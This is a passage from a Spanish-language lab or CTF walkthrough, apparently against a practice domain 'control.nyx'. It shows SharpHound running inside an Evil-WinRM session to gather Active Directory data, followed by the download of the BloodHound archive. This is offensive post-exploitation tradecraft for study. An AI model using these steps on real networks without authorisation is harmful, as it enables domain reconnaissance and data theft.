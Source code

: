 Y podemos empezar la enumeración y vemos que nos genera un archivo `.zip`, este archivo nos lo vamos a descargar a nuestra máquina.
```console
*Evil-WinRM* PS C:\windows\temp\work> .\SharpHound.exe -c All -d control.nyx
2024-11-27T13:56:22.4495922-08:00|INFORMATION|This version of SharpHound is compatible with the 4.3.1 Release of BloodHound
2024-11-27T13:56:22.5736137-08:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-11-27T13:56:22.6046309-08:00|INFORMATION|Initializing SharpHound at 1:56 PM on 11/27/2024
2024-11-27T13:56:22.6986369-08:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for control.nyx : Controler.control.nyx
2024-11-27T13:56:22.8232664-08:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-11-27T13:56:22.9486785-08:00|INFORMATION|Beginning LDAP search for control.nyx
2024-11-27T13:56:22.9791841-08:00|INFORMATION|Producer has finished, closing LDAP channel
2024-11-27T13:56:22.9956880-08:00|INFORMATION|LDAP channel closed, waiting for consumers
2024-11-27T13:56:53.6357554-08:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 35 MB RAM
2024-11-27T13:57:12.2298717-08:00|INFORMATION|Consumers finished, closing output channel
2024-11-27T13:57:12.2608769-08:00|INFORMATION|Output channel closed, waiting for output task to complete
Closing writers
2024-11-27T13:57:12.3073993-08:00|INFORMATION|Status: 95 objects finished (+95 1.938776)/s -- Using 42 MB RAM
2024-11-27T13:57:12.3228847-08:00|INFORMATION|Enumeration finished in 00:00:49.3710135
2024-11-27T13:57:12.3708956-08:00|INFORMATION|Saving cache with stats: 54 ID to type mappings.
 54 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2024-11-27T13:57:12.3858986-08:00|INFORMATION|SharpHound Enumeration Completed at 1:57 PM on 11/27/2024! Happy Graphing!
*Evil-WinRM* PS C:\windows\temp\work> dir


    Directory: C:\windows\temp\work


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       11/27/2024   1:57 PM          11381 20241127135711_BloodHound.zip
-a----       11/27/2024   1:57 PM           8136 MWMwNWZhMWQtNWU5Yi00ZGZhLTgzZDEtMDE5NjRmMmE2NWEw.bin
-a----       11/27/2024   1:55 PM        1052160 SharpHound.exe
*Evil-WinRM* PS C:\windows\temp\work> download 20241127135711_BloodHound.zip

Info: Downloading C:\windows\temp\work\20241127135711_BloodHound.zip to 20241127135711_BloodHound.zip

Info: Download successful!
```
